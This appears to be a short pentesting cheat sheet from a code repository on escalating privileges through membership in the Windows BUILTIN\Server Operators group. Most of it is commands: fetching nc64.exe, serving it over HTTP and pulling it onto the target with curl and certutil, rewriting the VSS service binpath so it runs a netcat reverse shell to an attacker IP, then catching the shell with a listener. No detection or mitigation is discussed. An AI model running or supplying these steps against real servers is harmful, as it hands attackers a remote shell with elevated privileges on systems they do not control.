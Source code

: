 # BUILTIN\Server Operators
On a Windows Server, BUILTIN\Server Operators is a local built-in group. Its intended purpose is to give trusted users significant administrative control over the server itself, without making them full Domain Admins or local Administrators.

Think of them as the "senior janitorial staff" or "data center technicians" for a specific server. They aren't allowed to change the building's blueprints (domain policy), but they have the keys to every room (server) and can control all the equipment inside.

# Steps
1. Transfer the nc64.exe Binary.
2. vss service check.
3. Configure the command Execution.
4. Stop and start the service.

# Transfer Binary
```language
wget https://github.com/int0x33/nc.exe/blob/master/nc64.exe
python3 -m http.server 80

curl http://ip:80/nc64.exe
certutil -urlcache -f http://ip:80/nc64.exe nc64.exe
```
# Check service and Configure the Command
```language
get-service vss       #service check

sc.exe config VSS binpath="C:\windows\system32\cmd.exe /c C:\programdata\nc64.exe -e cmd ip  9001"       #configure it
or
sc.exe config vss binpath="C:\programdata\nc64.exe -e cmd.exe ip 9001"
```
# Start listner and service
```language
rlwrap nc -lvnp 9001

sc.exe start vss
```
